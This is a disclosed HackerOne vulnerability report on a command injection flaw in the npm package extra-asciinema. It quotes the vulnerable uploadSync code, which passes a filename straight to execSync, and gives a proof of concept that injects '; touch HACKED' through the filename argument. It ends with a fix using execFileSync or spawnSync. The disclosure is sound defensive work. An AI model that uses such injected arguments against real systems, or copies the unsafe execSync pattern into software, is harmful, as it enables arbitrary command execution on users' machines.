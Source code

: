 # [extra-asciinema] Command Injection via insecure command formatting

## Report Details
- **Report ID**: 863956
- **URL**: https://hackerone.com/reports/863956
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2020-05-01T11:39:52.991Z
- **Disclosed**: 2020-08-22T08:48:20.138Z

## Reporter
- **Username**: d3lla
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report a `Command Injection` issue in the `extra-asciinema` module.
It allows to execute arbitrary commands on the victim's PC.

# Module

**module name:** `extra-asciinema`
**version:** `1.0.5`
**npm page:** `https://www.npmjs.com/package/extra-asciinema`

## Module Description

asciinema is a terminal screen recorder.

With this package you can auto-generate terminal recordings for Node.js examples through asciinema programmatically. Each method is also available as separate package for use by bundling tools, like browserify, rollup, uglify-js.

## Module Stats

[23] weekly downloads

# Vulnerability

## Vulnerability Description

The issue occurs because a user input parameter is used inside a command that is executed without any check. 

I tested the `uploadSync` function.
Here's the code which causes the issue:

```javascript
// https://github.com/nodef/extra-asciinema/blob/master/index.js#L214
...
const cp9 = require('child_process');
...
/**
 * Upload recorded asciicast to asciinema.org site.
 * @param {string} f filename
 * @returns {string} asciicast URL
 */
function uploadSync(f) {
  var stdout = cp9.execSync(`asciinema upload ${f}`, {encoding: 'utf8'});
  return stdout.replace(/.*?(https?:\S+).*/s, '$1');
}
...
```
The `f` parameter is used to build the command that is passed to the `child_process.execSync` function without any check.


## Steps To Reproduce:
- create a directory for testing
    - `mkdir poc`
    - `cd poc/`

- install `extra-asciinema` module:
    -  `npm i extra-asciinema`
- create the following PoC JavaScript file (`poc.js`):

```javascript
const asciinema = require('extra-asciinema');
asciinema.uploadSync('; touch HACKED');

```
- make sure that the `HACKED` file does not exist:
    - `ls`
- execute the `poc.js` file:
    - `node poc.js`
- the `HACKED` file is created:
    - `ls`
    
{F810853}


## Patch
Do not concatenate/format commands using insecure user's input. Always check and sanitize it. 
In my opinion, it's better to use [`child_process.execFileSync`](https://nodejs.org/api/child_process.html#child_process_child_process_execfilesync_file_args_options) or [`child_process.spawnSync`](https://nodejs.org/api/child_process.html#child_process_child_process_spawnsync_command_args_options) functions instead of `child_process.execSync`.

## Supporting Material/References:

- OPERATING SYSTEM VERSION: Ubuntu 18.04.4 LTS
- NODEJS VERSION: v13.13.0
- NPM VERSION: 6.14.4

# Wrap up

- I contacted the maintainer to let them know: [N] 
- I opened an issue in the related repository: [N] 


Thank you for your time.

best regards,

d3lla

## Impact

Command Injection on `extra-asciinema` module via insecure command formatting.

## Attachments
- poc_extra-asciinema.mov
